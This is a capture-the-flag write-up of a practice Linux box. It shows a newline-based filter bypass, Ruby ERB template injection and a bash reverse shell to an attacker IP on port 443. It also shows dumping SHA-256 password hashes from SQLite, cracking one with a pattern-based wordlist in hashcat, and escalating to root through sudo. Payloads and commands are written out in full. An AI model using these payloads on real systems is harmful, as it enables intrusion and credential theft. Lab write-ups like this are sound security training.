







Exploitation Summary
Exploitation process: The target machine was running a Ruby web application built with the Sinatra framework and WEBrick server. The application featured a weighted grade calculator that reflected user input back to the page, making it a potential target for Server-Side Template Injection (SSTI).
Initial attempts at SSTI were blocked by input validation that filtered special characters like quotes, backticks, and other injection-related symbols. However, I discovered that this filter could be bypassed using a newline character (%0a in URL encoding) before the malicious payload, allowing me to inject Ruby ERB template code that executed arbitrary commands on the server.
After gaining initial access as the susan user through the SSTI vulnerability, I found a SQLite database containing password hashes. An email discovered in /var/mail/susan revealed the password format specification used by the organization. Using this information, I generated a custom wordlist based on the pattern and successfully cracked Susan's password hash, which granted me full sudo privileges to escalate to root.
Technologies/Exploits: Ruby ERB Server-Side Template Injection (SSTI), newline character input validation bypass, custom wordlist generation, SHA-256 hash cracking with hashcat.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services running on the target machine:

The scan reveals two open ports: SSH on port 22 and HTTP on port 80. The web server is running WEBrick 1.7.0 with Ruby 3.0.2, which provides valuable information about the underlying technology stack.
Web Application Enumeration
Navigating to the web application on port 80, I find a weighted grade calculator application. This functionality allows users to input different course categories with their corresponding grades and weights to calculate an overall weighted average:

Analyzing HTTP Requests
When the form is submitted, the application processes a POST request with the following structure:

The application reflects the calculation results back to the user in the response page. This reflection behavior immediately suggests the potential for injection attacks, particularly Server-Side Template Injection (SSTI) since the application is using Ruby.
Identifying Input Validation
When attempting to inject special characters like single quotes (') or other typical injection characters, the application returns an error message in the HTML output:
Malicious input blockedTo systematically identify which characters are being blocked by the input validation, I use ffuf to fuzz the input parameters:
ffuf -u http://10.10.11.253/weighted-grade-calc \
-d 'category1=FUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' \
-w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt \
-mr MaliciousThis command fuzzes the category1 parameter while filtering responses that contain the word "Malicious", which indicates blocked input:

The fuzzing reveals that characters commonly used in injection attacks—such as quotes, backticks, angle brackets, and others—are all being filtered.
Technology Stack Identification
Running whatweb provides additional information about the technology stack:
http://10.10.11.253 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx, WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)],
IP[10.10.11.253], PoweredBy[WEBrick], Ruby[3.0.2], Script, Title[Weighted Grade Calculator],
UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]Visiting a non-existent page to trigger a 404 error provides further confirmation:

The 404 page clearly identifies the application as being built with Sinatra, a lightweight Ruby web framework. This confirms that the application is likely using ERB (Embedded Ruby) templates, making it a prime target for SSTI attacks.
Server-Side Template Injection (SSTI)
Knowing that the application uses Ruby and reflects user input, I begin testing for SSTI vulnerabilities using payloads from the PayloadsAllTheThings repository: Ruby SSTI Payloads.
However, all standard SSTI payloads fail because the input validation blocks the necessary special characters. I need to find a way to bypass this filter.
Newline Character Bypass
After experimenting with various encoding techniques, I discover that using a newline character (%0a in URL encoding) before the payload bypasses the input validation filter. Testing this with a simple quote injection:
category5=a%0a'
The newline character successfully bypasses the filter! This works because the validation logic likely checks each line independently, and by starting a new line, the malicious characters are no longer detected by the filter.
Confirming SSTI Vulnerability
With the bypass technique confirmed, I test a basic ERB template injection to verify SSTI. The ERB syntax uses <%= %> tags to execute Ruby code. I craft the following payload to test mathematical evaluation:
category1=N%2FA&grade1=0&weight1=0&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=a%0a<%25%3d+7+*+7+%25>&grade5=1&weight5=100Breaking down the payload:
category5=a%0a- Sets the category to "a" followed by a newline to bypass the filter<%25%3d+7+*+7+%25>- URL-encoded ERB template syntax:<%= 7 * 7 %>

The application returns 49 (7 × 7), confirming successful Server-Side Template Injection! The Ruby code is being executed on the server, and the result is reflected in the response.
Initial Access - Exploiting SSTI for Remote Code Execution
Now that I've confirmed SSTI, I can leverage it to execute arbitrary system commands and obtain a reverse shell. In ERB templates, backticks can be used to execute shell commands. I craft the following payload:
category1=N%2FA&grade1=0&weight1=0&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=a%0a<%25%3d+`bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.2/443+0>%261"`+%25>&grade5=1&weight5=100This payload URL-decodes to:
<%= `bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"` %>The payload executes a bash reverse shell that connects back to my attacking machine on port 443.
Before sending the payload, I set up a netcat listener:
sudo nc -lvnp 443After submitting the malicious request, I successfully receive a reverse shell connection as the susan user and can retrieve the user flag.
Post-Exploitation Enumeration
After gaining access as susan, I begin enumerating the system for privilege escalation vectors. In Susan's home directory, I discover a Migration folder containing an interesting SQLite database:
susan@perfection:~$ sqlite3 Migration/pupilpath_credentials.dbExamining the database structure and contents:
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8The database contains five user accounts with what appear to be SHA-256 password hashes (64 hexadecimal characters). I attempt to crack these hashes using hashcat with mode 1400 (SHA-256) and the rockyou wordlist, but none of the hashes crack with this approach.
Discovering the Password Format
Checking for mail in /var/mail/susan, I discover a highly valuable email from Tina Smith:
susan@perfection:~/Migration$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate
our credentials ('our' including the other students in our class) to the new platform. I also suggest a new
password specification, to make things easier for everyone. The password format is:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
Note that all letters of the first name should be converted into lowercase.
Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
- Tina, your delightful studentThis email reveals the exact password format being used! For Susan Miller, the password would follow the pattern:
susan_nasus_{random_integer}Where the random integer is between 1 and 1,000,000,000.
Privilege Escalation - Password Cracking with Custom Wordlist
With the password format known, I can generate a custom wordlist containing all possible password combinations for Susan. I create a Python script to generate this wordlist efficiently:
with open("susan_nasus.txt", "w") as f:
batch = []
for i in range(1, 1_000_000_001):
batch.append(f"susan_nasus_{i}\n")
if i % 1000000 == 0: # write every 1 million lines
f.writelines(batch)
batch = []
f.writelines(batch)This script generates a wordlist with one billion entries, each following the required password format. The batch writing approach ensures efficient memory usage by writing to disk periodically rather than storing everything in memory.
I then use hashcat to crack Susan's password hash using the custom wordlist:
hashcat -m 1400 -a 0 susan_hash.txt susan_nasus.txtAfter some time, hashcat successfully cracks the password:
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210The password is susan_nasus_413759210.
Sudo Privileges and Root Access
With Susan's password, I check her sudo privileges:
susan@perfection:~/Migration$ sudo -l
[sudo] password for susan:
Matching Defaults entries for susan on perfection:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User susan may run the following commands on perfection:
(ALL : ALL) ALLSusan has full sudo privileges to run any command as any user! This makes privilege escalation trivial:
susan@perfection:~/Migration$ sudo su
root@perfection:/home/susan/Migration# cat /root/root.txtI now have root access and can retrieve the root flag, completing the machine.